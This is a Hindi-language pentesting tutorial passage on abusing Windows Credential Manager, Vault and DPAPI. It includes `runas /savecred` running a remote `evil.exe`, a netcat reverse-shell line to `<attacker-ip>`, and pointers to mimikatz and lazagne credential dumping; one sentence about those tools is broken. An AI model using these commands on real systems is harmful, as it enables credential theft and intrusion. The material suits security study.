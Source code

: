 From [https://www.neowin.net/news/windows-7-exploring-credential-manager-and-windows-vault](https://www.neowin.net/news/windows-7-exploring-credential-manager-and-windows-vault)\
Windows Vault उपयोगकर्ताओं के क्रेडेंशियल्स को सर्वरों, वेबसाइटों और अन्य कार्यक्रमों के लिए संग्रहीत करता है जिन्हें **Windows** उपयोगकर्ताओं को **स्वचालित रूप से लॉग इन** कर सकता है। पहले दृष्टिकोण में, यह ऐसा लग सकता है कि अब उपयोगकर्ता अपने फेसबुक क्रेडेंशियल्स, ट्विटर क्रेडेंशियल्स, जीमेल क्रेडेंशियल्स आदि को संग्रहीत कर सकते हैं, ताकि वे स्वचालित रूप से ब्राउज़रों के माध्यम से लॉग इन कर सकें। लेकिन ऐसा नहीं है।

Windows Vault उन क्रेडेंशियल्स को संग्रहीत करता है जिन्हें Windows उपयोगकर्ताओं को स्वचालित रूप से लॉग इन कर सकता है, जिसका अर्थ है कि कोई भी **Windows एप्लिकेशन जिसे किसी संसाधन (सर्वर या वेबसाइट) तक पहुँचने के लिए क्रेडेंशियल्स की आवश्यकता होती है** **इस Credential Manager** और Windows Vault का उपयोग कर सकता है और उपयोगकर्ताओं द्वारा बार-बार उपयोगकर्ता नाम और पासवर्ड दर्ज करने के बजाय प्रदान किए गए क्रेडेंशियल्स का उपयोग कर सकता है।

जब तक एप्लिकेशन Credential Manager के साथ इंटरैक्ट नहीं करते, मुझे नहीं लगता कि उनके लिए किसी दिए गए संसाधन के लिए क्रेडेंशियल्स का उपयोग करना संभव है। इसलिए, यदि आपका एप्लिकेशन वॉल्ट का उपयोग करना चाहता है, तो इसे किसी न किसी तरह **क्रेडेंशियल मैनेजर के साथ संवाद करना चाहिए और उस संसाधन के लिए क्रेडेंशियल्स को डिफ़ॉल्ट स्टोरेज वॉल्ट से अनुरोध करना चाहिए**।

मशीन पर संग्रहीत क्रेडेंशियल्स की सूची बनाने के लिए `cmdkey` का उपयोग करें।
```bash
cmdkey /list
Currently stored credentials:
Target: Domain:interactive=WORKGROUP\Administrator
Type: Domain Password
User: WORKGROUP\Administrator
```
फिर आप `/savecred` विकल्पों के साथ `runas` का उपयोग कर सकते हैं ताकि सहेजे गए क्रेडेंशियल्स का उपयोग किया जा सके। निम्नलिखित उदाहरण एक SMB शेयर के माध्यम से एक दूरस्थ बाइनरी को कॉल कर रहा है।
```bash
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
```
`runas` का उपयोग एक प्रदान किए गए क्रेडेंशियल सेट के साथ।
```bash
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```
ध्यान दें कि mimikatz, lazagne, [credentialfileview](https://www.nirsoft.net/utils/credentials_file_view.html), [VaultPasswordView](https://www.nirsoft.net/utils/vault_password_view.html), या [Empire Powershells module](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/dumpCredStore.ps1) से।

### DPAPI

**डेटा प्रोटेक्शन एपीआई (DPAPI)** डेटा के सममित एन्क्रिप्शन के लिए एक विधि प्रदान करता है, जो मुख्य रूप से विंडोज ऑपरेटिंग सिस्टम के भीतर सममित एन्क्रिप्शन के लिए उपयोग किया जाता है। यह एन्क्रिप्शन उपयोगकर्ता या सिस्टम रहस्य का उपयोग करता है ताकि एंट्रॉपी में महत्वपूर्ण योगदान दिया जा सके।

**DPAPI उपयोगकर्ता के लॉगिन रहस्यों से निकाले गए सममित कुंजी के माध्यम से कुंजी के एन्क्रिप्शन को सक्षम करता है**। सिस्टम एन्क्रिप्शन के मामलों में, यह सिस्टम के डोमेन प्रमाणीकरण रहस्यों का उपयोग करता है।

DPAPI का उपयोग करके एन्क्रिप्टेड उपयोगकर्ता RSA कुंजी `%APPDATA%\Microsoft\Protect\{SID}` निर्देशिका में संग्रहीत होती हैं, जहाँ `{SID}` उपयोगकर्ता के [सुरक्षा पहचानकर्ता](https://en.wikipedia.org/wiki/Security_Identifier) का प्रतिनिधित्व करता है। **DPAPI कुंजी, जो उपयोगकर्ता की निजी कुंजियों को उसी फ़ाइल में सुरक्षित रखने वाले मास्टर कुंजी के साथ स्थित होती है**, आमतौर पर 64 बाइट्स के यादृच्छिक डेटा से बनी होती है। (यह ध्यान रखना महत्वपूर्ण है कि इस निर्देशिका तक पहुंच प्रतिबंधित है, जिससे `dir` कमांड के माध्यम से इसकी सामग्री को सूचीबद्ध करने से रोका जाता है, हालांकि इसे PowerShell के माध्यम से सूचीबद्ध किया जा सकता है)।
```bash
Get-ChildItem  C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem  C:\Users\USER\AppData\Local\Microsoft\Protect\
```
आप **mimikatz module** `dpapi::masterkey` का उपयोग उचित तर्कों (`/pvk` या `/rpc`) के साथ इसे डिक्रिप्ट करने के लिए कर सकते हैं।
